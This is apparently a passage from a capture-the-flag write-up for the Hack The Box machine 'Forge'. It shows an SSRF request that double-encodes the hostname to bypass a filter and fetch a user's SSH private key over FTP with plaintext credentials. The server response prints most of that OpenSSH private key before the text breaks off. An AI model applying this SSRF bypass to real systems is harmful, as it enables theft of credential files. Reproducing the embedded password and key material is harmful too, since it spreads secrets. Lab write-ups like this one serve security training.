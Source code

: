 An FTP directory. Since `user.txt` is in this directory, it is possible that it is the user's home directory. If this is the case, perhaps there is an `.ssh/` directory with the user's private key. Turns out, this is the case. Read the user's SSH private key.

```http
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Origin: http://forge.htb
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2Fadmin%252Eforge%252Ehtb/upload%3Fu%3Dftp%3A%2F%2Fuser%3Aheightofsecurity123%21@admin%252Eforge%252Ehtb/.ssh/id_rsa&remote=1
```

Follow the link.

```http
HTTP/1.1 200 OK
Date: Tue, 14 Sep 2021 20:03:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=p4tYW0e1LlAzLO4DYnns
Content-Length: 2590
Last-Modified: Tue, 14 Sep 2021 20:03:52 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

-----BEGIN OPENSSH PRIVATE KEY-----
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
```